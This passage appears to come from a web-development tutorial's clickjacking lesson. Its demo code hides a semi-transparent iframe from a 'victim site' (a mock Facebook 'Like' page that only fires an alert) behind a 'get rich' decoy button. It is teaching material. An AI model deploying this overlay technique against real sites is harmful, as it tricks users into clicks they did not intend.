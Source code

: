 <a href="clickjacking.html#" class="toolbar__button toolbar__button_run" title="show"></a>

<a href="clickjacking.html#" class="toolbar__button toolbar__button_edit" title="open in sandbox"></a>

    <style>
    iframe { /* iframe from the victim site */
      width: 400px;
      height: 100px;
      position: absolute;
      top:0; left:-20px;
      opacity: 0.5; /* in real opacity:0 */
      z-index: 1;
    }
    </style>

    <div>Click to get rich now:</div>

    <!-- The url from the victim site -->
    <iframe src="/clickjacking/facebook.html"></iframe>

    <button>Click here!</button>

    <div>...And you're cool (I'm a cool hacker actually)!</div>

The full demo of the attack:

Result

facebook.html

index.html

<a href="article/clickjacking/clickjacking-visible/index.html" class="code-tabs__button code-tabs__button_external" title="open in a new window"></a><a href="https://plnkr.co/edit/xQ6XQZLiF5crCD8f?p=preview" class="code-tabs__button code-tabs__button_edit" title="edit in the sandbox"></a>

    <!DOCTYPE HTML>
    <html>

    <body style="margin:10px;padding:10px">

      <input type="button" onclick="alert('Like pressed on facebook.html!')" value="I LIKE IT !">

    </body>

    </html>

    <!doctype html>
    <html>

    <head>
      <meta charset="UTF-8">
    </head>

    <body>

      <style>
        iframe {
          width: 400px;
          height: 100px;
          position: absolute;
          top: 5px;
          left: -14px;
          opacity: 0.5;
          z-index: 1;
        }
      </style>
